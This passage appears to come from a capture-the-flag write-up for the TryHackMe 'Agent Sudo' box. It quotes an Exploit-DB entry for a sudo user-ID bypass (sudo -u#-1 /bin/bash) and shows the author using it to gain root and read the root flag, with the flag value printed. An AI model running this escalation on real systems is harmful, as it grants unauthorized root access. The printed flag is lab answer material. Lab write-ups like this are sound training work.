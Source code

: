 ```exploit db 
User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id
```

With that I ran the command in the terminal: 
```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```
Was able to bypass and escalate to root privileges: 
```console
root@agent-sudo:~# whoami
root
root@agent-sudo:~# 
```
#### *What is the root flag?*
Did some basic navigation:
```console
root@agent-sudo:~# pwd
/home/james
root@agent-sudo:~# cd ..
root@agent-sudo:/home# ls 
james
root@agent-sudo:/home# cd ..
root@agent-sudo:/# ls 
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
root@agent-sudo:/# cd root
root@agent-sudo:/root# ls 
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```